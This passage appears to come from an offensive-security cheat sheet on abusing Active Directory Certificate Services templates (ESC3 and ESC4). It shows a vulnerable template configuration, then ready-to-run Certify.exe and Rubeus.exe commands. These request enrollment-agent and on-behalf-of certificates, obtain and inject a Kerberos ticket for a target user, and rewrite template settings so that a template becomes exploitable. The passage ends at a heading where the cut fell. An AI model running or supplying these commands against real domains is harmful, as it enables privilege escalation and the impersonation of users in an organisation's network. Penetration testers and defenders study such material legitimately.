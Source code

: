 ```diff
+    Authorized Signatures Required        : 0
+    Extended Key Usage                    : Client Authentication, <--Snip-->
     Certificate Application Policies      : <null>
     Permissions
       Enrollment Permissions
+        Enrollment Rights           : ESSOS\Domain Users                 S-1-5-21-365136873-3771736488-3147536774-513
       Object Control Permissions
```

### Exploit 
#### Request Enrollment Agent Certificate
```bash
.\Certify.exe request --ca $PublishingCA --template $TEMPLATE_1
```


#### Request 'On-Behalf-Of' Certificate using Enrollment Agent Certificate
```bash
.\Certify.exe request-agent --ca $PublishingCA --template $TEMPLATE_2 --target $USER --agent-pfx "MIACAQMwg..."
```

> Ask TGT
```bash
.\Rubeus.exe Rubeus.exe asktgt /certificate:MIACAQMwgAYJKo... /domain:$DOMAIN /user:$USER /dc:$DCIP /nowrap /ptt /enctype:aes256 /opsec
```

## ESC4

### Full Control / Write Property

Full Control or Write Property roights over a certificate template lets you modify the certificate in just about anyway. The simplest vector would be to reconfigure the template to be vulnerable to ESC1.

| Configuration | Description | Certify Command |
|---------------|-------------|-----------------|
| Enrollment Rights | Grant enrollment permissions to principal | ```Certify.exe manage-template --template $TEMPLATE --enroll $SID``` |
| Manager Approval | Disable manager approval | `Certify.exe manage-template --template $TEMPLATE --manager-approval` |
| Authorized Signatures | Disable authorized signatures  | `Certify.exe manage-template --template $TEMPLATE --authorized-signatures 0` |
| Client Authentication | Enable client support | `Certify.exe manage-template --template $TEMPLATE --client-auth --pkinit-auth --smartcard-logon` |
| Subject Details | Allow enrollees to provide alternate SAN | `Certify.exe manage-template --template $TEMPLATE --supply-subject` |

### Owner / Write DACL / Write Owner

**Privilege Escalation Chain:**
